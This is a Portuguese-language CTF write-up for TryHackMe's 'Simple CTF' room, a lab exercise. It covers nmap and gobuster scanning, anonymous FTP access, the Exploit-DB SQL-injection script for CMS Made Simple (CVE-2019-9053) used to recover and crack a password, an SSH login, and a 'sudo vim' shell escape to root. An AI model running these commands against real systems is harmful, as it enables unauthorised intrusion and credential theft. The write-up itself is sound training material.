


# Simple CTF Writeup

> [!NOTE] 
> **[EN]** This version of the writeup is in portuguese. Click [here]() or follow [this link (github)]() to go to the english version.

> **Link para o desafio CTF**: [https://tryhackme.com/room/easyctf](https://tryhackme.com/room/easyctf)
> **Dificuldade:** `Fácil`
> **Data de Resolução:** `2026/04/30
## Sumário

> Link do writeup no github: [https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Simple%20CTF/(PT-BR)%20SimpleCTF%20Writeup.md](https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Simple%20CTF/(PT-BR)%20SimpleCTF%20Writeup.md)

- [Ferramentas Utilizadas](#ferramentas%20utilizadas)
- [Resolução do CTF](#Resolução%20do%20CTF)
	1. [Reconhecimento](#Reconhecimento)
	2. [Exploração](#Exploração)
	3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)
- [Conclusão](#Conclusão)
- [Referências](#Referências)
## Ferramentas Utilizadas

Para este CTF, foram utilizadas as seguintes ferramentas:
- [Nmap](https://nmap.org/)[^nmap]: ferramenta de exploração da internet, criada para escanear rapidamente redes de larga escala. O Nmap realiza diversas requisições para um IP para determinar quais hosts estão disponíveis naquela rede, quais serviços que eles oferecem (por exemplo, HTTP, ssh, ...), quais sistemas operacionais (e versões destes) estão utilizando dentre outras informações. Sendo uma ferramenta poderosa para a enumeração de serviços e fornecimento de informações básicas sobre os hosts de uma rede, dados essenciais para alguém que está tentando invadir um sistema, o Nmap é muito utilizado em situações de pentesting e geralmente faz parte do primeiro passo nos CTFs.
- [Gobuster](https://github.com/OJ/gobuster)[^gobuster]: ferramenta responsável por enumerar por força bruta diretórios e arquivos, detectar subdomínios DNS e hosts virtuais, dentre outras funções. Por ser de alta performance, o Gobuster é essencial para agilizar o processo de encontrar diretórios de sistemas, poupando o desgaste da pessoa invasora de procurá-los manualmente, sendo, portanto recomendado para CTFs e pentesting.
- [searchsploit](https://www.exploit-db.com/searchsploit)[^searchsploit]: ferramenta de pesquisa da [Exploit Database](https://www.exploit-db.com)[^exploitdb] que permite buscar por CVEs e outras vulnerabilidades de forma offline pelo terminal. As Common Vulnerabilities and Exposures[^CVE] são referências públicas a vulnerabilidades de segurança e a  [Exploit Database](https://www.exploit-db.com)[^exploitdb] contém uma lista dessas vulnerabilidades, com descrições e modos de replicar. O `searchsploit`[^searchsploit] permite que o processo de busca seja feito rapidamente por meio do terminal e é muito utilizado em contextos de penetration tests e CTFs.

Bem como recursos como:
- [GTFOBins](https://gtfobins.org/)[^gtfo]:  lista de executáveis estilo Unix que permitem ultrapassar restrições de segurança em sistemas vulneráveis, muito útil para realizar escalação de privilégio. Assim como o site anterior, contém um compilado de funções para várias situações.


## Resolução do CTF

O CTF Simple CTF, disponível no TryHackMe, é um desafio de dificuldade fácil que requer a exploração de um sistema para achar a flag de usuário e de root. Neste CTF foi-se utilizada uma vulnerabilidade do CMS Made Simple[^CMS], descoberta com o `searchsploit`[^searchsploit], que envolve uma SQL injection. 

Após conectar-me ao VPN do TryHackMe, obtive acesso à maquina e iniciei o desafio. A estratégia usada foi dividida em duas partes:

1. [Reconhecimento](#Reconhecimento)
2. [Exploração](#Exploração)
3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)

Para facilitar a entrada de argumentos, adicionei ao `etc/hosts` uma relação entre o IP da máquina vulnerável com um nome de domínio (`vul.net`). Com tudo preparado, comecei o reconhecimento.

### Reconhecimento

A primeira coisa que fiz para o reconhecimento da máquina-alvo foi uma enumeração da rede com o `nmap`[^nmap], executando:

```sh 
nmap -T4 -A vul.net
```

em que `-T4` representa o template de temporização (de 0 a 5, quanto maior, mais rápido, ou seja, mais interações e menos discrição, o que não costuma ser um problema em CTFs básicos) e `-A` habilita a detecção de SO, detecção de versão, traceroute e scan de scripts. Dados relevantes da enumeração estão a seguir:

```bash
nmap vul.net -A -T4          
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-30 16:48 -0400
Nmap scan report for vul.net (<TARGET_IP>)
Host is up (0.16s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.221.44
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
#[...]
```

em que percebi que o sistema era baseado em Apache e que a página padrão estava funcionando. As portas 21 (ftp), 80 (http) e 2222 (ssh) estavam abertas, então já decidi enumerar os diretórios com o `gobuster`[^gobuster] enquanto eu começava a exploração:

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/common.txt -u http://vul.net/ -x php,html,txt -t 50
```

Este comando busca os diretórios com a wordlist fornecida (`-w`, com uma wordlist contendo uma lista de diretórios mais comuns), no url fornecido (`-u`) e com as extensões fornecidas (`-x`, em que coloquei as mais comuns como php, html e txt), na quantidade de threads fornecida (`-t`, e, mais uma vez, discrição não é essencial nesse CTF, então o número escolhido foi alto para agilizar o processo). O resultado final obtido foi o seguinte:

```sh
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vul.net
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
#[...]
index.html           (Status: 200) [Size: 11321]
index.html           (Status: 200) [Size: 11321]
robots.txt           (Status: 200) [Size: 929]
robots.txt           (Status: 200) [Size: 929]
server-status        (Status: 403) [Size: 295]
simple               (Status: 301) [Size: 303] [--> http://vul.net/simple/]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished
===============================================================
```

Os resultados finais dessa enumeração serão discutidos durante a fase de exploração, pois comecei a exploração ao mesmo tempo que executei o `gobuster`[^gobuster].
### Exploração

Ao acessar `http://vul.net`, deparei-me com a página padrão do Apache, que não continha nenhuma informação relevante:



Nesse momento, comecei a enumeração de diretórios de `http://vul.net`. Enquanto isso, explorei o serviço ftp[^ftp]. Como em alguns casos é possível entrar com um usuário anônimo, sem a necessidade de senhas, decidi testar para essa máquina e, realmente, consegui acesso anônimo:

```sh
ftp vul.net                                                                                 
Connected to vul.net.
220 (vsFTPd 3.0.3)
Name (vul.net:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
```

Ao procurar um pouco encontrei apenas o arquivo `ForMitch.txt`: 

```sh
ftp> get ForMitch.txt -
remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
226 Transfer complete.
166 bytes received in 00:00 (1.06 KiB/s)
```

De fato, o arquivo não continha tantas informações, mas pelo menos sei que há alguma senha fraca que deverá ser quebrada, provavelmente para o usuário "mitch".

Com os resultados do `gobuster`, descobri o diretório `/simple`, que levava para a página padrão do CMS Made Simple[^cms], um sistema de gerenciamento de conteúdo para auxiliar o desenvolvimento e administração de websites:


A versão do serviço estava no final da página:



Assim, por meio do `searchsploit`[^searchsploit], busquei por alguma vulnerabilidade para o CMS Made Simple, na versão `2.2.8`:

```bash
searchsploit simple 2.2.8
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                       | php/webapps/46635.py
Simple PHP Agenda 2.2.8 - 'edit_event.php?eventid' SQL Injection               | php/webapps/26136.txt
Simple PHP Agenda 2.2.8 - Cross-Site Request Forgery (Add Admin / Add Event)   | php/webapps/18694.txt
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

A `CMS Made Simple < 2.2.10 - SQL Injection`[^EDB-46635] parecia ser a mais promissora (`CVE-2019-9053`). Um ataque por SQL Injection consiste em inserir um pedido SQL por meio de uma área de input do cliente de uma aplicação. Dentre outras ações, é possível ler partes sensíveis de um banco de dados, que é justamente o que o código fornecido, `46635.py` faz. Precisei de testar várias vezes o código até atualizá-lo completamente para a versão do `python3` e conseguir executá-lo com sucesso (diferenças de sintaxe, na maioria dos casos). Os resultados da execução estão a seguir:

```sh
$ python3 46635.py -u http://vul.net/simple/ -c -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6b9
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: <PASSWORD>
```

A execução demorou um pouco por não ter sido usado o `hashcat`[^hashcat], e sim a função `crack_password()` do próprio exploit, mas consegui encontrar e quebrar a senha, justamente, do usuário "mitch".

Com isso, decidi logo tentar acessar com o serviço ssh como o usuário "mitch" e obtive sucesso:

```sh
ssh -p 2222 mitch@vul.net
mitch@vul.net's password: #inseri <PASSWORD>
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
```

Ao listar os conteúdos do diretório em que a conexão foi feita, encontrei logo a `<USER_FLAG>` em `user.txt`:

```
$ ls
user.txt
$ cat user.txt
<USER_FLAG>
```
### Escalação de Privilégios

Por fim, era necessário escalar privilégios e encontrar a flag em `/root`. Para isso, testei no terminal as permissões do usuário:

```sh
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Com isso, descobri que o usuário "mitch" tinha acesso privilegiado para executar o `vim`, sem a necessidade de senha. Com essa abertura, executei o seguinte comando para abrir uma shell com permissões de root, fornecido pelo site GTFObins[^gtfo]:

```
$ sudo vim -c ':!/bin/sh'
# whoami 
root
```

Ao listar os conteúdos de root, encontrei o arquivo, `root.txt`, que continha a `<ROOT_FLAG>`:

```
# cd /root      
# ls
root.txt
# cat root.txt
<ROOT_FLAG>
```

e finalizei o CTF.
## Conclusão

O Simple CTF permitiu explorar uma vulnerabilidade listada pela Exploit Database do CMS Made Simple, que envolvia o uso de SQL injection. Por meio do reconhecimento inicial e da posterior exploração, foram possíveis encontrar os dados necessários para estabelecer a conexão por ssh e escalar privilégios com o simples uso de um comando no `vim`, permitindo serem encontradas as flags desse desafio.
## Referências

[^nmap]: Nmap: [https://nmap.org/](https://nmap.org/)
[^gobuster]: Gobuster: [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
[^netcat]: Netcat: [http://www.stearns.org/nc/](http://www.stearns.org/nc/)
[^hashid]: Hashid: [https://psypanda.github.io/hashID/](https://psypanda.github.io/hashID/)
[^hashcat]: Hahscat: [https://hashcat.net/](https://hashcat.net/)
[^revshellgen]: Reverse Shell Generator (revshells): [https://www.revshells.com/](https://www.revshells.com/)
[^rockyou]: RockYou:
	- Sobre Rockyou e o vazamento de suas senhas: [https://en.wikipedia.org/wiki/RockYou](https://en.wikipedia.org/wiki/RockYou)
	- Wordlist `rockyou.txt`: [https://weakpass.com/wordlists/rockyou.txt](https://weakpass.com/wordlists/rockyou.txt)
[^jhon]: JhonTheRipper: https://www.openwall.com/john/
[^searchsploit]: Searchsploit: [https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)
[^exploitdb]: Exploit Database (Exploit-DB): [https://www.exploit-db.com](https://www.exploit-db.com)
[^CVE]: Sobre CVEs: [https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures)
[^gtfo]: GTFOBins: [https://gtfobins.org/](https://gtfobins.org/)
[^ftp]: Sobre FTP: [https://en.wikipedia.org/wiki/File_Transfer_Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol)
[^CMS]: Site do CMS Made Simple: [https://www.cmsmadesimple.org/](https://www.cmsmadesimple.org/)
[^EDB-46635]: CMS Made Simiple SQL Injection (46635): [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)
[^hashcat]: Hahscat: [https://hashcat.net/](https://hashcat.net/)